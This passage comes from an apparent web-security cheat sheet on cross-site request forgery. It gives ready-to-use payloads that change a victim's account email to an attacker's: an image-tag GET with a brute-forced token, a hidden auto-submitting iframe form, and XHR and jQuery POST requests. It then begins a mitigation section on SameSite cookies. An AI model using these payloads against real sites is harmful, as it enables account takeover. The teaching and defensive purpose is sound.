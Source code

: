 via HTML tags dynamically created by Javascript
```js
function MakeGET(tokenID) {
var url = "http://victim.site/csrf/brute/change.php?";
url += "old=myoldemail&confirm=1&";
url += "new=attackerEmail&csrfToken=" + tokenID;
new Image().src = url; //GET Request
}
```

### POST Requests
#### Auto-submitting Form
Via Hidden IFrames
```html
<iframe style="display:none" name="CSRFrame"></iframe>
<form action="change.php" method="POST" id="CSRForm" target="CSRFrame">
<input name="old" value="myC00Lemail@victim.site">
<input name="new" value="evil@hacker.site">
</form>
<script>document.getElementById("CSRForm").submit()</script>
```

or XHR requests
```js
var url = "URL";
var params = "old=mycoolemail@victim.site&new=evil@hacker.site";
var CSRF = new XMLHttpRequest();
CSRF.open("POST", url, false);
CSRF.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
CSRF.send(params);
```

or via JQuery
```js
$.ajax({
type: "POST",
url: "URL",
data: "old=mycoolemail@victim.site&new=evil@hacker.site",
});
```
***

## Mitigations
### Same Site Cookie
- The **`SameSite`** attribute of the [`Set-Cookie`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie) HTTP response header allows you to declare if your cookie should be restricted to a [first-party](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#third-party_cookies) or same-site context.
- A cookie is associated with a domain. If this domain is the same as the domain of the page you are on, the cookie is called a _first-party cookie_. If the domain is different, it is a _third-party cookie_.
-  the server hosting a web page sets first-party cookies, the page may contain images or other components stored on servers in other domains (for example, ad banners), which may set third-party cookies
-  These are mainly used for advertising and tracking across the web.
